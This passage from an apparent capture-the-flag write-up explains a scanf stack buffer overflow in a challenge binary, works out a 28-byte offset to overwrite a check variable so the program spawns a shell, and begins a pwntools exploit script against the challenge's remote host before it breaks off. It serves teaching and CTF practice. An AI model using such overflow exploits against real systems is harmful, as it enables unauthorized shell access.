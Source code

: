 As per the previous code the `hello_message` variable can't change by the user it is just a pre defined string so if we normally run this application we will got the following 

```console
(kali㉿0xRyuzak1)-[~]─$ ./Example     
AAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAA
helloguys
```
But if we send a long input to the `myinput` buffer we will be able to overwrite the `hello_message` content as we can see

```console
(kali㉿0xRyuzak1)-[~]─$ ./Example
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAATheNewHelloMessage
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAATheNewHelloMessage
TheNewHelloMessage
```

> The Safe way to use this `scanf()` can be done like the following : <br />
`scanf( "%20s" , myinput)` this will make sure that to only take the first 20 char from our input even if we submit more than that <br />
{: .prompt-tip }


### **Get Offset**

Now the Senario in our mind is that we will try to abuse this `scanf` function in order to be able to overwrite the `local_1c` to make it's value equal to `0x539` in order to drop us a shell as we described before.

So let's try to find the offset to overwrite the `local_1c` value by doing the following :

- Create uniq pattern (eg. 70 char long)
- Add breakpoint on `main+307` which is the instruction which compare the value of the variable with the `0x539`
- Run program and select option 1
- Enter The uniq pattern
- Choose option 3 to let the compare begin 


![](/assets/img/ctf/pwn/My Friend, A Loathsome Worm/OffsetCheck.png)

Then check which value does the `cmp` instruction compare with the `0x539` then check it's offset in our uniq pattern 

![](/assets/img/ctf/pwn/My Friend, A Loathsome Worm/OffsetCheck2.png)

As we can see the offset to overwrite the variable `local_1c` value is **28**


### **Write Exploit**

So now let's create our exploit which aim to overwrite the `local_1c` variable value and make it equal to `0x539` to pass the check and pop us a shell

```python
from pwn import *

# Connect to the remote IP and Port
io = remote("34.123.210.162",20232)

# Wait to get the 'Choice: ' string then send 1 to select the firs option
io.sendlineafter(b'Choice: ',b"1")

# Create the payload of the exploit which contains a 28 junk char (eg. A) then the value to be place in the local_1c variable 
payload = flat([
    b"A"*28,
    0x539
```